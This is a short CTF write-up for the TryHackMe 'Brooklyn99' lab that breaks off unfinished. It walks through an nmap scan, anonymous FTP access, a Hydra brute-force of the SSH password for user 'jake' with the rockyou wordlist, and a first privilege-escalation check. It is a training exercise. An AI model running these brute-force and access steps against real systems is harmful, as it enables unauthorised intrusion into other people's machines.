 # THM_Brooklyn99
Write-up for THM. 
Question 1: Retrieve user flag. 
- Look for open ports and services on the target
    nmap $IP
![image](https://github.com/QuanPham247/THM_Brooklyn99/assets/97132705/f660aab7-905f-43d9-bd48-de649352d37a)
-> FTP, SSH, and HTTP are open.
- FTP: Use anonymous to access the victim's FTP.
     ftp $IP
    ![image](https://github.com/QuanPham247/THM_Brooklyn99/assets/97132705/4715dd67-b674-4d8c-a181-bd5bc50f5e50)
    Retrieve the text file in the directory to our machine using the get command.  
    Here's its content: 

   ![image](https://github.com/QuanPham247/THM_Brooklyn99/assets/97132705/da925aa7-6511-4a00-9d5b-2a8b29d73f0f)
From here, we know that Jake might have a weak password so we're using Hydra to brute-force into the system using Jake's username. 
  Hydra -l jake -P /usr/share/wordlists/rockyou.txt $IP ssh
![image](https://github.com/QuanPham247/THM_Brooklyn99/assets/97132705/c70420b4-57bb-46dd-9f73-44a5e31bc770)

- Login: ssh jake@$IP
-  Find user flag: find /home -type f -name "*.txt" 2>/dev/l
  ![image](https://github.com/QuanPham247/THM_Brooklyn99/assets/97132705/ad03ea48-ce58-4d59-9b18-80971937c4e3
- PrivEsc: sudo -l
  

- 
